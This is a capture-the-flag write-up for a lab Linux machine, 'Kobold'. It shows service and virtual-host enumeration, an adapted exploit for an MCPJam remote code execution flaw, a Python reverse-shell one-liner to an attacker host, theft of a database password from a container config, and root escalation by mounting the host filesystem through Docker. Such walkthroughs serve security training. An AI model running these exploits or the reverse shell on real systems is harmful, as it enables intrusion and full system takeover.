


Summary
Machine Overview
Kobold is an easy Linux machine focused on virtual host enumeration, web application exploitation, container abuse, and privilege escalation through Docker misconfigurations.
Pentesting Process
Service Enumeration
The assessment begins with a service enumeration phase using Nmap to identify exposed services.
nmap -sC -sV 10.129.16.47
The scan reveals three accessible services:
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
443/tcp open ssl/http nginx 1.24.0 (Ubuntu)
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
| Not valid before: 2026-03-15T15:08:55
|_Not valid after: 2125-02-19T15:08:55
The web server redirects requests to the virtual host kobold.htb. To interact with the application correctly, the hostname was added to the local /etc/hosts file.
echo "10.129.16.47 kobold.htb" >> /etc/hosts
VHost Enumeration
Virtual host enumeration was performed to identify additional exposed services hosted on the target domain.
ffuf -w /snap/seclists/current/Discovery/DNS/combined_subdomains.txt -u https://kobold.htb -H "Host: FUZZ.kobold.htb" -mc all -fw 4
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.1.0
________________________________________________
:: Method : GET
:: URL : https://kobold.htb
:: Wordlist : FUZZ: /snap/seclists/current/Discovery/DNS/combined_subdomains.txt
:: Header : Host: FUZZ.kobold.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: all
:: Filter : Response words: 4
________________________________________________
bin [Status: 200, Size: 24392, Words: 1218, Lines: 386]
mcp [Status: 200, Size: 466, Words: 57, Lines: 15]
The enumeration identified two additional virtual hosts:
- bin.kobold.htb, hosting PrivateBin 2.0.2
- mcp.kobold.htb, hosting MCPJam 1.4.2
Vulnerability Analysis
mcp.kobold.htb hosts an instance of MCPJam v1.4.2, which is vulnerable to a remote code execution vulnerability identified as CVE-2026-23744. A public proof-of-concept exploit is available on GitHub [1].
The public exploit was not directly compatible with the target environment because it assumed the default MCPJam configuration, including port 6274 and the use of HTTP instead of HTTPS. To adapt the exploit for the target system, the protocol was changed to HTTPS, the correct port was specified, and SSL certificate verification was disabled.
import subprocess
import time
import requests
import os
import signal
import sys
def reproduce(target_ip, command):
print(f"[*] Waiting for server to start on port 6274...")
start_time = time.time()
server_ready = False
while time.time() - start_time < 30:
try:
response = requests.get(f"https://{target_ip}", timeout=1, verify=False)
if response.status_code == 200:
server_ready = True
break
except requests.exceptions.ConnectionError:
time.sleep(1)
continue
if not server_ready:
print("[!] Server failed to start in time.")
# Note: Removed the process kill since 'process' variable doesn't exist
return
print("[+] Server is up and running.")
# 4. Send the exploit payload
print("[*] Sending exploit payload...")
exploit_url = f"https://{target_ip}/api/mcp/connect"
cmd = "sh"
args = ["-c", command]
payload = {
"serverConfig": {
"command": cmd,
"args": args,
"env": {
"DISPLAY": os.environ.get("DISPLAY", ":0")
}
},
"serverId": "rce_test"
}
try:
response = requests.post(exploit_url, json=payload, timeout=5, verify=False)
print(f"[*] Server responded: {response.status_code}")
print(f"[*] Response body: {response.text}")
except Exception as e:
print(f"[*] Request failed (this might be expected if the command execution interrupts the connection): {e}")
print("[+] Payload sent.")
if __name__ == "__main__":
if len(sys.argv) != 3:
print(f"Usage: {sys.argv[0]}
Using the modified exploit, the following Python reverse shell payload was executed on the target system:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
Successful exploitation provided a reverse shell as the user ben.
id
uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)
Internal Service Enumeration
Internal services running on the host were enumerated after obtaining shell access.
netstat -tlnp
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:443 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:6274 0.0.0.0:* LISTEN 1605/node
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.54:53 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8080 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:42519 0.0.0.0:* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
tcp6 0 0 :::3552 :::* LISTEN -
| Local Address | Service |
|---|---|
| 127.0.0.1:6274 | MCPJam (https://mcp.kobold.htb/) |
| 127.0.0.1:8080 | PrivateBin (https://bin.kobold.htb/) |
| :::3552 | Arcane (http://kobold.htb:3552/) |
Arcane appears to be a container management platform, suggesting that the host may contain Docker containers storing sensitive configuration data or credentials useful for further exploitation.
LinPEAS was used to perform automated privilege escalation checks and identify potential misconfigurations on the target system.
Docker Group Enumeration
The LinPEAS output revealed that the user ben belongs to the docker group. Although this membership did not initially appear in the output of the id command, the current session was refreshed using newgrp to apply the updated group membership.
╔══════════╣ Actual Group Memberships via newgrp (T1069.001)
Accessible group not shown in id: docker (gid=111)
The following command was executed to refresh the active group memberships:
newgrp docker
Docker Enumeration
Docker containers running on the host were enumerated:
docker ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES
4c49dd7bb727 privatebin/nginx-fpm-alpine:2.0.2 "/etc/init.d/rc.local" 2 months ago Up About an hour 127.0.0.1:8080->8080/tcp bin
The container hosts the PrivateBin platform. A shell was opened inside the container to inspect its configuration files.
docker exec -it 4c49dd7bb727 sh
cat /srv/cfg/conf.php
[model_options]
dsn = "mysql:host=localhost;dbname=privatebin;charset=UTF8"
tbl = "privatebin_" ; table prefix
usr = "privatebin"
pwd = "ComplexP@sswordAdmin1928"
opt[12] = true ; PDO::ATTR_PERSISTENT
The PrivateBin database password was successfully retrieved.
Arcane Abuse & Privilege Escalation
The previously recovered credentials were used to authenticate to the Arcane platform at http://kobold.htb:3552/ using the account arcane.
A new container was created through the Arcane interface using the following parameters:
- Image: privatebin/nginx-fpm-alpine:2.0.2
- User: root
- Volume Mounts: /:/TEST, mounting the host root filesystem inside the container under the directory /TEST


The new container creation was verified from Ben's SSH session:
docker ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES
4e8a16b372c8 privatebin/nginx-fpm-alpine:2.0.2 "/etc/init.d/rc.local" 23 seconds ago Up 23 seconds 8080/tcp TEST
4c49dd7bb727 privatebin/nginx-fpm-alpine:2.0.2 "/etc/init.d/rc.local" 2 months ago Up 10 minutes 127.0.0.1:8080->8080/tcp bin
A shell was opened inside the container using Docker, allowing access to the mounted host filesystem through the /TEST directory.

Because the host root filesystem was mounted inside the container, it became possible to access files belonging to the root user and fully compromise the system.
Mitigation
Remediation
The following remediation steps can help prevent exploitation of the identified vulnerabilities:
- Upgrade MCPJam to version 1.4.3 or later
- Remove unnecessary users from the
dockergroup.
References